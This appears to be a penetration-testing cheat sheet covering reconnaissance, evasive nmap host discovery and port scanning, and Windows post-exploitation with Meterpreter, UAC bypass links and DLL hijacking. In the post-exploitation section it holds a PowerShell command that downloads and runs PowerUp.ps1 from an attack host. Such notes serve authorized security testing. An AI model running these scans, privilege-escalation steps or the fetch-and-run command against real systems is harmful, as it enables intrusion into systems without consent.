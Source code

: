 # Information Gathering
### Business
### Infrastructure
##### [Gather DNS Names and Public IPs](https://nmap.org/book/host-discovery-find-ips.html)
Confirm that any hosts found in this phase actually belong to the target, so as not to illegally scan or hack someone else.

* Perform whois on IP Address to get Net Block
```bash
whois <IP Address>
```
* [Look-up the CIDR from whois to get the Autonomous System Number](https://asn.cymru.com/cgi-bin/whois.cgi)
* [Find all of the IP prefixes which route to the AS Number](https://www.robtex.com/as/)

# Scanning
### Host Discovery 
##### Internet
* Simple Scan
```bash
sudo nmap -n -sn -g 53 -T4 -iL [Hosts File] | grep "Nmap scan report for" | cut -d ' ' -f5 > InternetDefaultPing
```
* [Extra probes to find more hosts](https://nmap.org/book/host-discovery-strategies.html)
```bash
sudo nmap -n -sn -g 53 -PE -PP -PS21,22,23,25,80,113,443,31339 -PA80,113,443,10042 -PU161,40125 -T4 -iL [Hosts File] | grep "Nmap scan report for" | cut -d ' ' -f5 > InternetExtendedPing
```
##### LAN
* [Simple Scan](https://nmap.org/book/host-discovery-techniques.html#host-discovery-default)
```bash
# Allow Reverse DNS to help identify candidates to exclude.
# Specify source port as DNS.
# Call as sudo to allow for default -sn options of -PE -PS443 -PA80 -PP.
# Otherwise, nmap can only send SYN packets.

# Look like Windows machine
sudo nmap -sn -g 53 --data-length 32 [Target Host]/[Network ID] --ttl 2 --randomize-hosts --reason --exclude [Attack Host] -oA LanDefaultPing

# Look like Linux maching
sudo nmap -sn -g 53 --data-length 56 [Target Host]/[Network ID] --ttl 2 --randomize-hosts --reason --exclude [Attack Host] -oA LanDefaultPing
```

### Scan Ports
##### Open Ports
* Basic Scan
```bash
sudo nmap -sS --open -p0- <Target Host> -oA TcpOpenPorts
sudo nmap -sUV --version-intensity 0 --open <Target Host> -oA UdpOpenPorts
```
* [FIN, NULL, and Xmas Scans](https://nmap.org/book/scan-methods-null-fin-xmas-scan.html)
* [Custom Scan Types](https://nmap.org/book/scan-methods-custom-scanflags.html)
* [ACK Scan](https://nmap.org/book/scan-methods-ack-scan.html)
* [Window Scan](https://nmap.org/book/scan-methods-window-scan.html)
* [Maimon Scan](https://nmap.org/book/scan-methods-maimon-scan.html)
* [Idle Scan](https://nmap.org/book/idlescan.html)

##### Fingerprint Ports

### [Scan Protocol](https://nmap.org/book/scan-methods-ip-protocol-scan.html)
### [FTP Bounce Scan](https://nmap.org/book/scan-methods-ftp-bounce-scan.html)

# Post Exploitation
### Windows
* [Meterpreter - Migrate process](../Tools/Metasploit/README.md#Processes).
* Meterpreter - ```getuid```
* Meterpreter - ```sysinfo```
* Meterpreter - ```getsystem```
* Meterpreter Suggester - ```post/multi/recon/local_exploit_suggester```.
* Check users in Administrators - ```net localgroup administrators```.
* Bypass UAC
  * [Manually](../Techniques/PostExploitation/PrivilegeEscalation/Windows/README.md#UAC)
  * Meterpreter
* PowerUp.ps1
```bash
iex (New-Object Net.WebClient).DownloadString('http://[Attack Host]/PowerUp.ps1')
Invoke-AllChecks
```
* [DLL Hijacking](../Techniques/DLL_Preloading/README.md)